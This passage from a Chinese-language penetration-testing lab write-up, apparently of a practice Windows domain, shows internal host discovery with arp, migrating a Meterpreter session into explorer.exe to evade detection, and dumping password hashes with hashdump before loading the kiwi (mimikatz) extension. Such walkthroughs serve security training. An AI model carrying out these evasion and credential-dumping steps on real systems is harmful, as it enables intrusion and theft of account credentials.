 ```
C:\>arp -a
arp -a        

Interface: 192.168.52.134 --- 0x1a
  Internet Address      Physical Address      Type
  192.168.52.138        00-0c-29-44-6f-62     dynamic   
  192.168.52.141        00-0c-29-c8-f0-62     dynamic   
  192.168.52.255        ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static
```

发现内网还有两台主机IP分别是

```
192.168.52.138
192.168.52.141
```

#### 迁移进程

> 通过msf得到的会话容易被发现，导致后渗透失败。因此我们可以把`shell`的进程迁移绑定到目标机正常的进程中

```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 2516  2836  explorer.exe       x64   1        GOD\Administrator             C:\Windows\Explorer.EXE
 3420  3412  ma.exe             x64   1        GOD\Administrator             C:\ma.exe
meterpreter > migrate 2516
[*] Migrating from 3420 to 2516...
[*] Migration completed successfully.
```

执行`migrate`命令后就可以将`ma.exe`的这个进程隐藏

#### kiwi抓密码

接着用MSF抓哈希和密码

```
C:\>exit
exit
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

